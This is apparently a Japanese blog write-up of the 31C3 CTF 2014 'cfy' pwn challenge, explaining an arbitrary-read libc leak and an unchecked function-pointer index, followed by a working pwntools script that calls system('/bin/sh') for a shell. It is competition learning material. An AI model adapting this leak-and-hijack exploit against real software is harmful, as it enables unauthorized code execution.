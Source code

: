 ```yaml
---
layout: post
redirect_from:
  - /writeup/ctf/2014/31c3-ctf-2014-cfy/
  - /blog/2016/02/18/31c3-ctf-2014-cfy/
date: 2016-02-18T10:32:58+09:00
tags: [ "ctf", "writeup", "pwn", "31c3-ctf" ]
---
```


# 31C3 CTF 2014: cfy

libcの特定をする必要があると知った回。(してなかった)

## [cfy](https://github.com/ctfs/write-ups-2014/tree/master/31c3-ctf-2014/pwn/cfy)

``` sh
$ file cfy
cfy: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=f023c69bba5f53464912a2501e87fb098e19af5d, not stripped

$ checksec --file cfy
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   cfy

$ ./cfy
What do you want to do?
0) parse from hex
1) parse from dec
2) parse from pointer
3) quit
0

Please enter your number: 10
dec: 16
hex: 0x10

What do you want to do?
0) parse from hex
1) parse from dec
2) parse from pointer
3) quit
3
have a nice day
```

### 攻撃

`2) parse from pointer`を選ぶと好きなアドレスを読むことができる。これにより、libcのbase addressが判明する。

`parsers`という関数ポインタの配列を持っており、与えられた入力をindexとして参照するが、indexの範囲のチェックをしていない。
大きな値を与えると別の入力である`buf`上に乗ったアドレスを`call`させられる。(しかも`buf`を引数として与えて呼び出す。)

これにより`system("/bin/sh");`を叩ける。

``` sh
$ readelf -s cfy
    59: 0000000000601080    48 OBJECT  GLOBAL DEFAULT   24 parsers
    72: 00000000006010e0  1024 OBJECT  GLOBAL DEFAULT   25 buf
    74: 000000000040080c   278 FUNC    GLOBAL DEFAULT   13 main
    75: 0000000000400785    20 FUNC    GLOBAL DEFAULT   13 from_ptr
    79: 0000000000400761    36 FUNC    GLOBAL DEFAULT   13 from_dec
    80: 000000000040073d    36 FUNC    GLOBAL DEFAULT   13 from_hex
```

### 実装

``` python
#!/usr/bin/env python2
from pwn import * # https://pypi.python.org/pypi/pwntools

elf = ELF('./cfy')
choice_call_buf = 6 # if you choose 6, it calls buf
choice_distance = 1<<4

context.log_level = 'debug'

# local
p = process('./cfy')
libc = ELF('/usr/lib/libc.so.6')

p.recvuntil('What do you want to do?\n')
p.sendline('2')
p.recvuntil('Please enter your number: ')
p.sendline(p64(elf.got['puts']))
p.recvline()
libc_base = int(p.recvline().split()[1], 16) - libc.symbols['puts']

p.recvuntil('What do you want to do?\n')
p.sendline('0')
p.recvuntil('Please enter your number: ')
p.sendline('A' * choice_distance + p64(libc_base + libc.symbols['system']))

p.recvuntil('What do you want to do?\n')
p.sendline(str(choice_call_buf + 1))
p.recvuntil('Please enter your number: ')
p.sendline('/bin/sh')

p.sendline('ls')
p.interactive()
```

<hr>

-   Thu Feb 18 18:50:53 JST 2016
    -   libcに関して追記
